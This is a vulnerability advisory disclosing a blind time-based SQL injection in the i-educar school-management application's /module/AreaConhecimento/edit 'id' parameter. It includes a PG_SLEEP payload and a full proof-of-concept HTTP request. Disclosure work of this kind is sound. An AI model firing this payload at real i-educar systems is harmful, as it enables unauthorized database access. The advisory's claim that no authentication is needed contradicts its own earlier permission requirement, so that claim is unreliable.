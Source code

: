 # SQL Injection (Blind Time-Based) Vulnerability in `id` Parameter on `/module/AreaConhecimento/edit` Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `/module/AreaConhecimento/edit` endpoint of the _i-educar_ application, specifically in the `id` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/module/AreaConhecimento/edit`  
**Parameter:** `id`

To reach the vulnerable functionality, it is necessary to navigate to:  
**Escola > Cadastros > Tipos > Regras de Avaliação > Listagem de áreas de conhecimento.

![[Pasted image 20250817192322.png]]

Additionally, exploiting this vulnerability requires an account with permissions to **create/list the "Escola" menu**.

The application fails to properly validate and sanitize user input in the `id` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

`'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR`

This payload triggers a **5-second delay** in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**
```
POST /module/AreaConhecimento/edit?id=3'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 90
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/module/AreaConhecimento/edit?id=3
Cookie: grav-admin-flexpages=eyJyb3V0ZSI6Ii9ob21lIiwiZmlsdGVycyI6e319; grav-tabs-state={%22tab--f0e041eed24f87f2b6b02fd6924d0a08%22:%22data.languages%22%2C%22tab-flex-pages-e838602f51515c83bca06a8ae758ce52%22:%22data.security%22%2C%22tab-flex-pages-b6676b27f5cdf6b6c22f8e18da4259a0%22:%22data.advanced%22%2C%22tab-flex-pages-raw-8f0a83a672754f7823714134334b1de8%22:%22data.content%22%2C%22tab-flex-pages-dc26c564cb2116d77bda5fff24ba90dc%22:%22data.security%22%2C%22tab-flex_conf-user_groups-accounts-02f0e9f68f41a0648ed530f80bd72c06%22:%22data.cache%22%2C%22tab-flex-pages-raw-9a0364b9e99bb480dd25e1f0284c8555%22:%22data.content%22%2C%22tab-flex-pages-e91e6348157868de9dd8b25c81aebfb9%22:%22data.security%22%2C%22tab--8cc45760590da203c5fc3568ecbabd66%22:%22data.routes%22%2C%22tab--7a2ac3477f8ad14aa750831441325a16%22:%22data.facebook%22}; i_educar_session=iIw1P9Yxwm9hsXZb74mgDwRm5ltCSdmSQuuURvmG
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tipoacao=Editar&id=3&instituicao=1&nome=Educa%C3%A7%C3%A3o+Infantil&secao=&ordenamento_ac=
```

![[Pasted image 20250817193035.png]]

Observe the increased server response time, confirming that the injected SQL command was executed.

---

## Impact

- **Unauthorized data access:** Reading sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting database schema, tables, and column details
    
- **Data manipulation:** Adding, modifying, or deleting database records
    
- **Denial of Service (DoS):** Using time-based queries to impact system availability
    
- **Potential escalation to RCE:** If combined with other vulnerabilities and specific database features
    

This vulnerability affects all users who can interact with the vulnerable parameter, and it can be exploited remotely without prior authentication if the endpoint is exposed.

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)